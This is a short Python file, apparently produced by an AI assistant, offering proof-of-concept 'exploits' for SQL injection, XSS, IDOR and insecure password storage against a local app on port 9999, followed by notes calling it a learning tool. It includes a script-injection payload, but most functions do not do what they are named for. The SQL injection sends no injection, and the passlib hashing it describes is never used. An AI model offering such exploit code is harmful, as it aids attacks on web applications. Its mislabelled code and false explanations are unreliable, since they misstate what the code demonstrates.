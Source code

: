 ```python
# SQL Injection Exploit

import requests
from string import Template

def sql_injection_exploit(username):
    template = Template("http://localhost:9999/user/$username")
    url = template.substitute(username=username)
    response = requests.get(url)
    print(response.text)

# Example usage:
sql_injection_exploit('admin')

# Cross-Site Scripting (XSS) Exploit

import requests
from bs4 import BeautifulSoup

def xss_exploit(title):
    data = {'title': title}
    response = requests.post('http://localhost:9999/post', data=data)
    soup = BeautifulSoup(response.text, 'html.parser')
    print(soup.find('div').text)

# Example usage:
xss_exploit("<script>alert('XSS')</script>")

# Insecure Direct Object Reference (IDOR) Exploit

import requests

def idor_exploit(post_id):
    response = requests.get(f'http://localhost:9999/post/{post_id}')
    print(response.text)

# Example usage:
idor_exploit(1)

# Insecure Password Storage Exploit

import requests
from passlib.context import CryptContext

pwd_context = CryptContext(schemes=['bcrypt'], default='bcrypt')

def password_storage_exploit(username, password):
    data = {'username': username, 'password': password}
    response = requests.post('http://localhost:9999/register', data=data)
    if response.status_code == 201:
        print("Password stored successfully!")
    else:
        print("Error storing password:", response.text)

# Example usage:
password_storage_exploit('user', 'password')
```
This code provides a simple proof of concept exploit for each vulnerability found in the original code. Each function takes the necessary input and demonstrates how an attacker could exploit the vulnerability.

Note that these exploits are not meant to be run on a production system, but rather used as a learning tool to understand how to prevent such vulnerabilities.

Also note that the Insecure Password Storage Exploit uses `passlib` library for password hashing and verification. If you don't have it installed, you can install it using pip: `pip install passlib`

This is my best effort to provide a clear, concise, and easy-to-understand proof of concept exploit for each vulnerability found in the original code.